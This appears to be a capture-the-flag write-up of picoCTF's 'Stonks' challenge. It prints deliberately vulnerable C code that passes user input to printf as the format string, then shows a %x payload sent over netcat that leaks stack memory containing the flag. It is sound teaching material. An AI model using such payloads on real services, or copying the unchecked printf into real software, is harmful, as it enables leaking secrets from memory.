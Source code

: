 # Stonks

> Okay, maybe I'd believe you if you find my API key.

## Source Code

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <time.h>

#define FLAG_BUFFER 128
#define MAX_SYM_LEN 4

typedef struct Stonks {
	int shares;
	char symbol[MAX_SYM_LEN + 1];
	struct Stonks *next;
} Stonk;

typedef struct Portfolios {
	int money;
	Stonk *head;
} Portfolio;

int view_portfolio(Portfolio *p) {
	if (!p) {
		return 1;
	}
	printf("\nPortfolio as of ");
	fflush(stdout);
	system("date"); // TODO: implement this in C
	fflush(stdout);

	printf("\n\n");
	Stonk *head = p->head;
	if (!head) {
		printf("You don't own any stonks!\n");
	}
	while (head) {
		printf("%d shares of %s\n", head->shares, head->symbol);
		head = head->next;
	}
	return 0;
}

Stonk *pick_symbol_with_AI(int shares) {
	if (shares < 1) {
		return NULL;
	}
	Stonk *stonk = malloc(sizeof(Stonk));
	stonk->shares = shares;

	int AI_symbol_len = (rand() % MAX_SYM_LEN) + 1;
	for (int i = 0; i <= MAX_SYM_LEN; i++) {
		if (i < AI_symbol_len) {
			stonk->symbol[i] = 'A' + (rand() % 26);
		} else {
			stonk->symbol[i] = '\0';
		}
	}

	stonk->next = NULL;

	return stonk;
}

int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}

Portfolio *initialize_portfolio() {
	Portfolio *p = malloc(sizeof(Portfolio));
	p->money = (rand() % 2018) + 1;
	p->head = NULL;
	return p;
}

void free_portfolio(Portfolio *p) {
	Stonk *current = p->head;
	Stonk *next = NULL;
	while (current) {
		next = current->next;
		free(current);
		current = next;
	}
	free(p);
}

int main(int argc, char *argv[])
{
	setbuf(stdout, NULL);
	srand(time(NULL));
	Portfolio *p = initialize_portfolio();
	if (!p) {
		printf("Memory failure\n");
		exit(1);
	}

	int resp = 0;

	printf("Welcome back to the trading app!\n\n");
	printf("What would you like to do?\n");
	printf("1) Buy some stonks!\n");
	printf("2) View my portfolio\n");
	scanf("%d", &resp);

	if (resp == 1) {
		buy_stonks(p);
	} else if (resp == 2) {
		view_portfolio(p);
	}

	free_portfolio(p);
	printf("Goodbye!\n");

	exit(0);
}
```

The last `printf` in the `buy_stonks` function does not have a format specified. This leads to a [format string vulnerability](https://owasp.org/www-community/attacks/Format\_string\_attack).

The correct use of `printf` is as follows:

```c
printf(”format String”, Arguments);
```

If only one argument is provided, we can either print out the string or define the format. If we provide the data format, `printf()` will try to find the second argument, and when it can’t find anything, it will start printing data from the stack.

```
Lower address
+-------------------------+
|                         |
|   %x%x%x%x%x%x%x%x%x    | <------ For every format specifier, printf 
|   %x%x%x%x%x%x%x%x%x    |         will read one byte from the stack
|                         |
|-------------------------|
|                         |
|     String pointer      |
|                         |
|-------------------------|  
|                         |
|     return address      |
|                         |
|-------------------------|  
|                         |
|     local variable      |
|                         |
|-------------------------|  
|                         |
|          flag           |
|                         |
+-------------------------+  
Higher address
```

The code is already running at `mercury.picoctf.net` on port `59616`. We can connect using netcat.

```
$ nc mercury.picoctf.net 59616
```

On connecting we can choose the `Buy some stonks!` option.

Once we are prompted to enter the API token, we can try and supply a format specifier. In this case we'll use `%x` which is for printing hexadecimal values.

```
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Buying stonks with token:
84ce410804b00080489c3f7efad80ffffffff184cc160f7f08110f7efadc7084cd180884ce3f084ce4106f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3834313634356562ffcb007df7f35af8f7f084401f30c10010f7d97ce9f7f090c0f7efa5c0f7efa000ffcb7b88f7d8868df7efa5c0
```

There is a dump of hexadecimal characters in the output. Let's try to decode it using [Cyberchef](https://gchq.github.io/CyberChef/).&#x20;

<figure><img src="../../.gitbook/assets/stonks 1.png" alt=""><figcaption></figcaption></figure>

We can see a string that resembles our flag. However it seems to be mangled.

This is because it is in [little-endian](https://www.geeksforgeeks.org/little-and-big-endian-mystery/) format. We can decode this using Cyberchef as well.

<figure><img src="../../.gitbook/assets/stonks 2.png" alt=""><figcaption></figcaption></figure>

The closing bracket is not present because the string was terminated by a NULL byte. But that is fine we can just add it.
